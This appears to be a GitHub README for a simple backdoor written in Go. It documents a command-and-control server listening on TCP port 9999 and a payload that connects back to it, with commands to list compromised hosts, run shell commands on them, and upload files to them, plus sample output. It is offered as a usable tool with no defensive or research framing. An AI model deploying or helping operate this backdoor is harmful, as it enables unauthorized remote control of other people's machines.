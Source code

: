 ## Go Backdoor

Simple backdoor written in GO. It features a command and control over cli and a backdoor payload that communicates to the C&C over tcp.

# Usage:

 - Run the C&C:

```bash
backdoor --listen
```

This starts up a C&C that listens on default port `9999`.

 - Connect a payload to the C&C:

```bash
backdoor -port 9999
```

This will start a backdoor payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<RL:#>`

show all payloads connected to C&C:

```bash
<RL:#> show
```

This will return the payload ids and addresses

```
ID: 57533aa3e5b07e4383951462 Address: 127.0.0.1:64635
ID: 57533aa3e5b07e4383951463 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads address:

```bash
<RL:#> use 127.0.0.1:64346
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<RL#>`
